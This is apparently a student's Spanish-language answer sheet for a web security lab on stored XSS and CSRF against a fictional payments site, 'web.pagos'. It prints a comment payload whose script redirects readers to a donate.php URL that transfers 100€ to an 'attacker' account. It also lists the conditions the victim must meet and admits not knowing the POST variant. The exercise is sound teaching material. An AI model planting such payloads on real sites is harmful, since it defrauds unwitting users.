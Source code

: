 El comentario añadido es:
```
Qué jugador tan impresionanteeeee!
<script type="text/javascript">
    setTimeout(function() {
        window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";
    }, 2000);
</script>
```

Con este comentario el navegador espera 2000 milisegundos y te redirige a la web del punto anterior.

**c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.**

**Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).**

La victima debe:

- Estar registrada en la plataforma web.pagos.
- Tener fondos suficientes para la donación.

**d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.**

No sé exactamente como hacerlo.

## Conclusiones

Después de realizar las respuestas a las preguntas y analizar el código, he llegado a la conclusión de que si no se itiza bien el código de nuestras páginas web, generamos una serie de vulnerabilidades que permiten campar a sus anchas dentro de nuestra aplicación a cualquier atacante que las encuentre.
